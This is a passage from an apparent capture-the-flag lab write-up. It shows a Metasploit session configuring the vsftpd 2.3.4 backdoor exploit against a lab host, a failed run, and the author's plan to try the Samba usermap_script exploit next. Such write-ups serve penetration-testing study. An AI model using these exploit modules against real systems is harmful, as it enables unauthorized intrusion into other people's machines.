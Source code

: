 ```
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set lhost 10.10.14.6
lhost => 10.10.14.6

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit
                                      -framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.

```
{% endcode %}

A walkthrough was used to determine that vsftpd was not exploitable in this machine. Appears that vsftpd is NOT exploitable without the password.

TRY ANOTER ATTACK VECTOR - Check the Samba connection for exploits. Search command for usermap\_script to find its exploits.
